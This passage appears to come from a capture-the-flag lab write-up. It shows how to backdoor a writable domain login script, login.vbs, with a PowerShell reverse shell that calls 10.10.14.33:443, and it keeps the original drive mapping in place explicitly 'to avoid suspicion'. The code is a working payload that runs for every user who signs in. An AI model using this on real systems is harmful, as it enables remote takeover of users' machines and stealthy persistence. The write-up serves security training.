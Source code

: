 This login script is executed every time a user signs in and its purpose is to map network shares for that user. Let's check if we've got write access to this folder using `smbclient` and putting a test file (`users.txt`) :

<figure><img src="https://3550432212-files.gitbook.io/~/files/v0/b/gitbook-x-prod.appspot.com/o/spaces%2FgxTXO9Ixrx4ExK6jnMbc%2Fuploads%2FFQO7SapGg4cfJK1yqYLX%2Fimage.png?alt=media&#x26;token=569c03ea-7f3c-414d-9766-2f20b453f969" alt=""><figcaption></figcaption></figure>

Nice, we've got write access which means that we can manipulate the login.vbs file keep in mind that any change to that file will be executed in the context of whoever logs in.&#x20;

Let's modify the file like this to establish a reverse shell to our attacker system:

```powershell
Sub ReverseShell()
    Dim ws
    Set ws = CreateObject("WScript.Shell")
    
    ' PowerShell reverse shell one-liner
    Dim psCommand
    psCommand = "powershell -nop -c ""$client = New-Object System.Net.Sockets.TCPClient('10.10.14.33',443);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()"""
    
    ws.Run psCommand, 0, False
    Set ws = Nothing
End Sub

' Call the reverse shell function
ReverseShell

' Keep the original mapping function to avoid suspicion
Sub MapNetworkShare(sharePath, driveLetter)
    Dim objNetwork
    Set objNetwork = CreateObject("WScript.Network")    
    
    ' Check if the drive is already mapped
    Dim mappedDrives
    Set mappedDrives = objNetwork.EnumNetworkDrives
    Dim isMapped
    isMapped = False
    For i = 0 To mappedDrives.Count - 1 Step 2
        If UCase(mappedDrives.Item(i)) = UCase(driveLetter & ":") Then
            isMapped = True
            Exit For
        End If
    Next
    
    If isMapped Then
        objNetwork.RemoveNetworkDrive driveLetter & ":", True, True
    End If
    
    objNetwork.MapNetworkDrive driveLetter & ":", sharePath
    
    If Err.Number = 0 Then
        WScript.Echo "Mapped " & driveLetter & ": to " & sharePath
    Else
        WScript.Echo "Failed to map " & driveLetter & ": " & Err.Description
    End If
    
    Set objNetwork = Nothing
End Sub

MapNetworkShare "\\dc.baby2.vl\apps", "V"
```